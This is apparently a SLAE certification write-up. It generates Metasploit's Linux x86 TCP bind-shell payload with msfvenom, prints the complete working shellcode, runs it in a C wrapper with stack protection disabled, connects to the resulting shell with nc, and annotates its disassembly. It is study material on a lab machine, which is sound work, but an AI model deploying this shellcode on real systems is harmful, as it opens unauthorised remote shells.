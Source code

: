 ### Shellcode No.1 - TCP Bind Shell ###

At first glance, we'll take payload linux/x86/shell_bind_tcp, very similar to the shellcode we wrote in the first SLAE exam task.

------------------------------------------------------------------------------------------------------------------------
We generate shellcode using the msfvenom script, belonging to the Metasploit-framework, giving as arguments the payload we choose, LPORT, i.e. the port on which our bind_shell is to listen, as well as the language in which our shellcode will be used, in this case - C.
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ msfvenom -p linux/x86/shell_bind_tcp LPORT=1234 -f c
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 78 bytes
Final size of c file: 354 bytes
unsigned char buf[] =
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";
```
------------------------------------------------------------------------------------------------------------------------
Next, we place the generated shellcode in the so-called C language wrapper, which will allow us to easily test its effectiveness. We create a shellcode.c file with the following content:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80"
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
"\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0"
"\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f"
"\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0"
"\x0b\xcd\x80";


main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
------------------------------------------------------------------------------------------------------------------------
Then, we compile the program using GCC software, along with the appropriate parameters.
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
------------------------------------------------------------------------------------------------------------------------
We run the program.
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ ./shellcode 
Shellcode Length:  20
```
------------------------------------------------------------------------------------------------------------------------
What we see in the answer is the length of the shellcode, which seems incorrect at first glance. This is because the shellcode generated by msfvenom does not by default prohibit the use of so-called null-byte ('\ x00), which in our case is a terminator of a string, which we can confirm by searching for the string "00" (the first line containing 15 characters will be omitted, please add the characters of the next line, 15 + 5 = 20 characters)
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ cat shellcode.c | grep 00
"\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a"
```
------------------------------------------------------------------------------------------------------------------------
Then, opening another terminal and executing the netstat -antp command, we notice that shellcode actually works and we can connect to the port of our choice, obtaining a shell.
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ netstat -antp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:1234            0.0.0.0:*               LISTEN      24304/shellcode 
tcp        0      0 127.0.1.1:53            0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        1      0 172.16.237.201:32845    91.189.92.92:80         CLOSE_WAIT  2552/ubuntu-geoip-p
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
slae@ubuntu:~/exam-SLAE/Assignment-5$ nc localhost 1234
whoami
slae
```
------------------------------------------------------------------------------------------------------------------------
For our analyzes, we will use ndisasm software. To do this, call our shellcode with the echo command and then use the pipe character to pass the output to the ndisasm software.
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ echo -ne "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x5b\x5e\x52\x68\x02\x00\x04\xd2\x6a\x10\x51\x50\x89\xe1\x6a\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" | ndisasm -u -
```
```nasm
00000000  31DB              xor ebx,ebx			; clearing the EBX register
00000002  F7E3              mul ebx 			; clearing the EAX and EDX registers
00000004  53                push ebx 			; pushing 0 on the stack as a first argument of socketcall syscall (IPPROTO_IP = 0 (null))
00000005  43                inc ebx 			; incrementing EBX by one for sys_socket call
00000006  53                push ebx 			; pushing second argument on the stack (SOCK_STREAM = 1)
00000007  6A02              push byte +0x2 		; pushing value 2 on the stack (third argument of socketcall syscall - AF_INET = 2 (PF_INET))
00000009  89E1              mov ecx,esp			; directing the stack pointer to sys_socket() function arguments
0000000B  B066              mov al,0x66 		; call to socketcall syscall 
0000000D  CD80              int 0x80			; syscall execution (after this, sockfd will be saved in EAX as return value)
0000000F  5B                pop ebx 			; popping value 2 into the ebx (sys_bind call)
00000010  5E                pop esi
00000011  52                push edx 			; pushing 0 (null) which is necessary for that call
00000012  68020004D2        push dword 0xd2040002	; pushing d204 -> in reverse 04d2(hex) = 1234(dec) - our LPORT, and 0002(hex) = 2(dec) which is the third argument (it is like `push word 2` - AF_INET = 2)
00000017  6A10              push byte +0x10 		; pushing value 16, which is the socklen_t addrlen (size) = 16
00000019  51                push ecx 			; const struct sockaddr *addr - stack pointer with struct arguments	
0000001A  50                push eax 			; pushing our sockfd pointer
0000001B  89E1              mov ecx,esp 		; directing the stack pointer to sys_bind() function arguments
0000001D  6A66              push byte +0x66 		; pushing call to socketcall syscall on top of the stack
0000001F  58                pop eax 			; popping above value into EAX
00000020  CD80              int 0x80 			; syscall execution
00000022  894104            mov [ecx+0x4],eax 		; ECX points to the stack, so ECX+4 will points too -> pushing EAX on the stack
00000025  B304              mov bl,0x4 			; moving 4 to EBX (sys_listen call)
00000027  B066              mov al,0x66 		; call to socketcall syscall 
00000029  CD80              int 0x80 			; syscall execution
0000002B  43                inc ebx 			; incrementing EBX (sys_accept call)
0000002C  B066              mov al,0x66 		; call to socketcall syscall
0000002E  CD80              int 0x80 			; syscall execution (ECX already points to top of the stack (arguments))
00000030  93                xchg eax,ebx 		; 
00000031  59                pop ecx
00000032  6A3F              push byte +0x3f
00000034  58                pop eax
00000035  CD80              int 0x80
00000037  49                dec ecx
00000038  79F8              jns 0x32
0000003A  682F2F7368        push dword 0x68732f2f
0000003F  682F62696E        push dword 0x6e69622f
00000044  89E3              mov ebx,esp
00000046  50                push eax
00000047  53                push ebx
00000048  89E1              mov ecx,esp
0000004A  B00B              mov al,0xb
0000004C  CD80              int 0x80
```
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 102
#define __NR_socketcall 102
```
```bash
slae@ubuntu:~/exam-SLAE/Assignment-5$ cat /usr/include/linux/net.h | grep sys_socket
#define SYS_SOCKET	1		/* sys_socket(2)		*/
```

# Shellcode No.2 - TCP Reverse Shell







# Shellcode No.3 - Exec Command
